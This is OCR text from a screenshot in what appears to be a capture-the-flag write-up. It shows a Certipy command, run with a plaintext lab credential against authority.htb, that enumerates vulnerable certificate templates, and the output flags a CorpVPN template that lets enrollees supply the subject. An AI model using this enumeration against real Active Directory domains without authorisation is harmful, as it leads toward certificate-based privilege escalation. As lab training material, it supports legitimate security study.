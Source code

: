     oxdf@hacky$ certipy find -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -target authority.htb -text -stdout -vulnerable
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Finding certificate templates
    [*] Found 37 certificate templates
    [*] Finding certificate authorities
    [*] Found 1 certificate authority
    [*] Found 13 enabled certificate templates
    [*] Trying to get CA configuration for 'AUTHORITY-CA' via CSRA
    [!] Got error while trying to get CA configuration for 'AUTHORITY-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
    [*] Trying to get CA configuration for 'AUTHORITY-CA' via RRP
    [!] Failed to connect to remote registry. Service should be starting now. Trying again...
    [*] Got CA configuration for 'AUTHORITY-CA'
    [*] Enumeration output:
    Certificate Authorities
      0
        CA Name                             : AUTHORITY-CA
        DNS Name                            : authority.authority.htb
        Certificate Subject                 : CN=AUTHORITY-CA, DC=authority, DC=htb
        Certificate Serial Number           : 2C4E1F3CA46BBDAF42A1DDE3EC33A6B4
        Certificate Validity Start          : 2023-04-24 01:46:26+00:00
        Certificate Validity End            : 2123-04-24 01:56:25+00:00
        Web Enrollment                      : Disabled
        User Specified SAN                  : Disabled
        Request Disposition                 : Issue
        Enforce Encryption for Requests     : Enabled
        Permissions
          Owner                             : AUTHORITY.HTB\Administrators
          Access Rights
            ManageCertificates              : AUTHORITY.HTB\Administrators
                                              AUTHORITY.HTB\Domain Admins
                                              AUTHORITY.HTB\Enterprise Admins
            ManageCa                        : AUTHORITY.HTB\Administrators
                                              AUTHORITY.HTB\Domain Admins
                                              AUTHORITY.HTB\Enterprise Admins
            Enroll                          : AUTHORITY.HTB\Authenticated Users
    Certificate Templates
      0
        Template Name                       : CorpVPN
        Display Name                        : Corp VPN
        Certificate Authorities             : AUTHORITY-CA
        Enabled                             : True
        Client Authentication               : True
        Enrollment Agent                    : False
        Any Purpose                         : False
        Enrollee Supplies Subject           : True
        Certificate Name Flag               : EnrolleeSuppliesSubject
        Enrollment Flag                     : AutoEnrollmentCheckUserDsCertificate
                                              PublishToDs
                                              IncludeSymmetricAlgorithms
        Private Key Flag                    : ExportableKey
        Extended Key Usage                  : Encrypting File System
                                              Secure Email
                                              Client Authentication
                                              Document Signing
                                              IP security IKE intermediate
                                              IP security use
                                              KDC Authentication
        Requires Manager Approval           : False
        Requires Key Archival               : False
        Authorized Signatures Required      : 0
        Validity Period                     : 20 years